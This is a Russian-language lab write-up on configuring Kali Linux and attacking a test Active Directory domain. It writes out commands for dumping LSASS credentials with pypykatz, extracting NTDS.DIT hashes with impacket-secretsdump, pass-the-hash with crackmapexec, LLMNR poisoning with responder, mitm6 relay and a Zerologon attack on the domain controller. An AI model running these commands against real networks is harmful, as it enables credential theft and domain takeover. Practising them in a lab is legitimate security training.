

# Настройка Kali Linux

## 1. Сетевая конфигурация

На Kali Linux используется автоматическое получение IP-адреса по DHCP.

Интерфейс `eth0` получает настройки автоматически от маршрутизатора Cisco:

- Примерный IP-адрес: `10.0.68.X` (из пула DHCP)
- Маска подсети: `255.255.255.0`
- Шлюз по умолчанию: `10.0.68.1`
- DNS-серверы:
  - `10.0.68.5` (контроллер домена)
  - `8.8.8.8` (публичный DNS от Google)

> ✅ DHCP настроен на маршрутизаторе Cisco, Kali получает доступ в интернет и может взаимодействовать с Active Directory.

### Вывод команды `ip -a`


---

## 2. Установка инструментов

Для проведения атак на Active Directory планируется использовать:

- `mitm6` — атаки на протоколы IPv6
- `impacket` — набор инструментов для работы с AD (например, `secretsdump`, `wmiexec`, `smbexec`)
- `responder` — захват хэшей через NBNS и LLMNR

Установка mitm6:
```bash
sudo apt update
sudo apt install mitm6
```

---

## 3. Прочее

- Kali подключён к виртуальному коммутатору VMware
- Получает сетевые настройки от маршрутизатора Cisco (DHCP)
- Доступ в интернет активен


# Конфигурация Kali Linux и выполнение атак 

## 4. Настройка Kali

Kali настроен на получение IP-адреса по DHCP.

В настройках сети был также указан публичный DNS:
```bash
DNS: 8.8.8.8
```

Проверка IP-адреса:


---

## 5. Извлечение паролей из памяти

После получения дампа `lsass.DMP` выполнена команда:
```bash
pypykatz lsa minidump lsass.DMP
```

Результат:


---

## 6. Доступ к \C$ разделу, вытаскивание NTDS.DIT и SYSTEM

```bash
smbclient \\10.0.68.5\c$ -U lab68.com/ADMpetr
```


Затем с помощью `impacket-secretsdump`:
```bash
impacket-secretsdump -ntds "/home/kali/Active Directory/ntds.dit" \
  -system /home/kali/registry/SYSTEM LOCAL >> ntds_impacket.txt
```


Аутентификация пользователя через NTLM-хеш:
```bash
crackmapexec smb 10.0.68.5 -u ADMpetr -H <NT_hash> -x ipconfig
```


---

## 7. Отравление кеша LLMNR и NBT-NS

Атака с использованием `responder`:
```bash
sudo responder -I eth0
```


---

## 8. Настройка общего доступа на Windows 10 и перехват SMB-сессии

На Windows была создана открытая папка `SHARE`:


Настройка атаки с использованием `mitm6` и перехват сессии с `impacket-smbserver`:
```bash
sudo mitm6 -d lab68
impacket-smbserver -smb2support Share /home/kali/111
```


---

## 9. Атака Zerologon

Запуск атаки:
```bash
python3 set_empty_pw.py POD68-WS2016 10.0.68.5
```


Получение хеша через impacket:
```bash
impacket-secretsdump -hashes :<ntlm_hash> 'LAB68/POD68-WS2016$@10.0.68.5'
```


---

## 10. Восстановление состояния

После атаки Zerologon необходимо восстановить пароль для учетной записи контроллера домена:
```bash
rpcclient -U "" 10.0.68.5
> setuserinfo2 "POD68-WS2016$" 23 "<StrongPassword123!>"
```

---


